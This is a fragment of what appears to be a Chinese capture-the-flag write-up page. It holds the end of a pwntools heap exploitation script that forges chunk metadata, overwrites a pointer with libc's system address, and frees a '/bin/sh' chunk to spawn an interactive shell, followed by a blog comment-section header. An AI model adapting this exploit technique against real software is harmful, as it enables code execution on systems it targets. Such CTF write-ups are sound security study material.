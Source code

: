 ```
payload += p64(0)+p64(0x61)
payload += p64(0x600dba)

malloc(5, 0x58, payload)
malloc(6, 0x58, "gg")

system = libc_base + 0x45390
payload = "h"* 6 + p64(system)*2
malloc(7, 0x58, payload)

malloc(8, 0x20, "/bin/shx00")
free(8)

#debug()

sh.interactive()
```

# 评论区
**请文明评论，禁止广告**
<img src="https://cloud.panjunwen.com/alu/扇耳光.png" alt="扇耳光.png" class="vemoticon-img">  

---
